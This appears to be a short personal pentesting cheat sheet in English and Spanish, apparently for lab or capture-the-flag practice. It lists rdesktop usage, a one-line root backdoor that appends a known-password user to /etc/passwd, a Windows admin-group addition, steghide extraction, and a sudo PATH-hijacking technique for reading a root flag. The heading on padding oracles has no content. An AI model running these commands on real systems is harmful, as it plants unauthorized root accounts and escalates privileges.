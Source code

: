 ```
```

# rdp
```
rdesktop -g 85% -r disk:share=/var/www -r clipboard:CLIPBOARD -u username -p password 10.10.10.10
```

# if can run as sudo but dont have shell
```
echo 'toor:aaKNIEDOaueR6:0:0:toor:/root:/bin/bash' >> /etc/passwd
```
It will create a new root user with the password “foo”. The encrypted password was generated with: perl -le 'print crypt("foo", "aa")'. You can then easily elevate to a root shell with su toor.

```
localgroup Administrators offsec /add
```
this only work for old windows in modern execute a reverse shell might be the best idea


# clean carriage return from scripts
```
sed -i -e ‘s/\r$//’ <script name>
```

# steghide steganofrafia
usalo para sacar por ejemplo ssh que esten en una imagen
```
steghide extract -sf archivo.png
```


# pading oracle attack

# suid
si no tiene full path en sudo -l podemos hijackearlo cambiando el path

Because a full path to the cat binary is not specified, this specific command is vulnerable to
hijacking by modifying the ​ PATH​ system variable. This can be achieved by setting the working
directory as the first option in PATH, with the command ​ export PATH=.:$PATH
After this, creating a file named ​ cat​ in the working directory will cause the file to be executed by
the root user. In this case, a bash script will do the trick. Note, do not use the ​ cat​ command in the
script as this will cause the script to loop endlessly. Don’t forget to ​ chmod +x ./cat​ before running
the backup binary. The script below creates a copy of the root flag in the home directory.
